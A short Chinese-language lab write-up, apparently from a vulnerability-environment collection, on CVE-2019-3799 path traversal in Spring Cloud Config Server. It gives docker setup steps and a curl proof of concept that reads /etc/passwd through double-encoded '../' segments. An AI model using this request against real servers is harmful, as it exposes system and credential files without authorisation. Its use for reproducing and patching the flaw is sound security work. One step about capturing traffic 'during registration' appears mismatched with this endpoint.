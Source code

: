 Spring Cloud Config Server 路径穿越与任意文件读取漏洞分析 - （CVE-2019-3799）

Spring Cloud Config是Spring体系中一个基于http协议的远程配置管理实现方式。 通过统一的配置管理服务器进行配置管理，客户端可以通过https协议主动的拉取服务的配置信息，自动完成配置获取。

参考链接：

- https://xz.aliyun.com/t/4844

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8888`。

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：


poc
```
curl http://*.*.*.*:8888/test/pathtraversal/master/..%252f..%252f..%252f..%252f../etc/passwd
```


![](1.png)